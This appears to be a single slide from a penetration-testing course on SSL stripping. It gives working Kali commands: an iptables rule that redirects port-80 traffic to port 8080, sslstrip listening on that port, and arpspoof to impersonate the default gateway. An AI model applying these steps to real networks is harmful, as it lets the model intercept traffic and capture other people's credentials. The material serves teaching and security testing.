

# SSL Stripping Attack
we need to set an Iptables rule to pass traffic that is headed to port 80 through SSLstrip.
 We’ll run SSLstrip on port 8080, as shown next, then restart Arpspoof and spoof the default gateway.
root@kali:# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
Now start SSLstrip, and tell it to listen on port 8080 with the -l flag. root@kali:# sslstrip -l 8080